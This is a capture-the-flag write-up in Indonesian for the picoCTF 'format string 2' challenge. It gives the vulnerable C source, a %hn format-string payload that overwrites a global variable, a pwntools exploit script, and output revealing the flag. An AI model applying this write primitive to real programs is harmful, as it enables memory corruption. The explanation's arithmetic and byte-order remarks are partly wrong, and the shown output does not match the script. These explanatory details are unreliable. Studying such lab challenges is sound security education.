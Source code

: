 # FORMAT STRING 2 WRITE UP

### Source code
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

Pada `printf(buff)` terlihat adanya keretanan format string, memanfaatkan kerentanan itu kita bisa menggunakan payload dibawah untuk mengubah nilai sus menjadi `0x67616c66`

### **Payload:**

```python
payload = b'%26464d,%20$hn%1281dAAAA%19$hnx,%40$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00'
```

Payload ini dibangun untuk menulis dua bagian dari nilai `0x67616c66` ke variabel `sus` yang terletak di dua alamat memori yang berurutan (`0x404060` dan `0x404062`).

### **Bagian-Bagian Payload:**

1. **`%26464d,%20$hn`**:
   - `%26464d`:
     - Ini mencetak `26464` karakter sebelum bagian berikutnya dari format string dievaluasi. Nilai ini dipilih karena kita ingin menulis nilai `0x6761` (dalam desimal `26465`) ke memori.
     - `d` digunakan untuk menghasilkan output string dengan panjang tertentu, yaitu 26464 karakter.
   - `%20$hn`:
     - `hn` menulis dua byte dari nilai karakter yang telah dicetak (`26464`) ke alamat memori yang ditentukan oleh argumen ke-20 dalam stack.
     - Alamat ini adalah `0x404060`, yang merupakan bagian pertama dari `sus`.

2. **`%1281dAAAA%19$hn`**:
   - `%1281d`:
     - Ini mencetak `1281` karakter tambahan, menjadikan total karakter yang dicetak menjadi `26464 + 1281 = 27745`.
     - Nilai ini dipilih karena kita ingin mencapai total `27750` karakter (sesuai dengan nilai `0x6c66` dalam desimal).
   - `AAAA`:
     - Ini adalah padding 4-byte untuk menjaga alignment dari data dalam stack.
   - `%19$hn`:
     - `hn` menulis dua byte dari nilai total karakter yang dicetak (`27745`) ke alamat memori yang ditentukan oleh argumen ke-19 dalam stack.
     - Alamat ini adalah `0x404062`, yang merupakan bagian kedua dari `sus`.

3. **`x,%40$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00`**:
   - `x`:
     - Mungkin ini adalah kesalahan atau tidak relevan untuk eksploitasi utama, tapi biasanya `x` tidak melakukan apa-apa.
   - `,%40$llx`:
     - Ini mencetak nilai dari alamat yang ditentukan dalam stack, tapi tidak relevan untuk eksploitasi ini.
   - `\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00`:
     - Ini adalah dua alamat memori dalam format little-endian.
     - `\x60\x40\x40\x00\x00\x00\x00\x00` adalah alamat pertama (`0x404060`).
     - `\x62\x40\x40\x00\x00\x00\x00\x00` adalah alamat kedua (`0x404062`).

### **Cara Kerja Payload:**

1. **Langkah Pertama**:
   - Payload mulai dengan mencetak 26464 karakter menggunakan `%26464d`.
   - Kemudian, `26464` dicetak, yang membuat posisi argumen stack ke-20 siap untuk diubah.
   - `%20$hn` menulis nilai `0x6761` (karakter `26464` ditambah `1` karena `hn` menulis 2 byte) ke alamat `0x404060`.

2. **Langkah Kedua**:
   - Kemudian, payload mencetak 1281 karakter tambahan menggunakan `%1281d`.
   - Sekarang, total karakter yang dicetak adalah `26464 + 1281 = 27745`.
   - `AAAA` digunakan sebagai padding agar menjaga alignment pada stack.
   - `%19$hn` kemudian menulis nilai `0x6c66` ke alamat `0x404062`.

3. **Hasil Akhir**:
   - Nilai `0x6761` ditulis ke alamat `0x404060`.
   - Nilai `0x6c66` ditulis ke alamat `0x404062`.
   - Jika payload bekerja dengan benar, variabel `sus` sekarang diubah dari `0x21737573` menjadi `0x67616c66` (yang dalam ASCII adalah 'gafl'), sehingga eksploitasi berhasil dan program akan mencetak flag.

### Exploit
```python
from pwn import *

io = process('./vuln')

payload = b'%26464d,%20$hn%1281dAAAA%19$hnp,%40$lls,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00'
# r.sendline(b'%26464d,%20$hn%1281dAAAA%19$hnx,%22$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00DEFGHIJKLMNOPQRSTUVWXYZ')
io.sendline(payload)
io.interactive()
```

```bash=
python3 solve.py

[+] Opening connection to rhea.picoctf.net on port 63309: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input:

I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}

[*] Got EOF while reading in interactive
```